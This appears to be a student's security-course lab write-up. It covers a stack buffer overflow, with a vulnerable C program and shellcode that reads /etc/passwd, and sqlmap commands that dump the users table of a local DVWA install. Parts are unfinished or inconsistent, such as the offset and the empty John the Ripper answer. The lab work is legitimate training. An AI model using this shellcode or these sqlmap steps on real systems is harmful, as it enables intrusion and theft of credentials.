

# Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```

)
output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```


b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:


b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
